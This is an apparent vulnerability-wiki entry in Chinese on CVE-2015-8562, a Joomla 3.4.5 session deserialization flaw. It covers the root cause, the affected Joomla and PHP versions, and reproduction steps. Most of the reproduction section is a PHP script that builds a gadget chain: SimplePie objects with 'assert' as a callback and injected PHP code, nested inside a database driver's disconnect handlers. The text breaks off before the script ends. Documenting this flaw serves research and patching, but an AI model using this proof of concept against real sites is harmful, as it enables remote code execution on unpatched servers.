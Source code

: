 （CVE-2015-8562）Joomla 3.4.5 反序列化漏洞
==========================================

一、漏洞简介
------------

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

二、漏洞影响
------------

-   Joomla 1.5.x, 2.x, and 3.x before 3.4.6
-   PHP 5.6 \< 5.6.13, PHP 5.5 \< 5.5.29 and PHP 5.4 \< 5.4.45

三、复现过程
------------

我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-8562)Joomla3.4.5反序列化漏洞/media/rId24.png)

再用如下脚本生成POC：

    <?php
    class JSimplepieFactory {
    }
    class JDatabaseDriverMysql {

    }
    class SimplePie {
        var $sanitize;
        var $cache;
        var $cache_name_function;
        var $javascript;
        var $feed_url;
        function __construct()
        {
            $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
            $this->javascript = 9999;
            $this->cache_name_function = "assert";
            $this->sanitize = new JDatabaseDriverMysql();
            $this->cache = true;
        }
    }

    class JDatabaseDriverMysqli {
        protected $a;
        protected $disconnectHandlers;
        protected $connection;
        function __construct()
        {
            $this->a = new JSimplepieFactory();
            $x = new SimplePie();
            $this->connection = 1;
            $this->disconnectHandlers = [
                [$x, "init"],
            ];
        }
    }
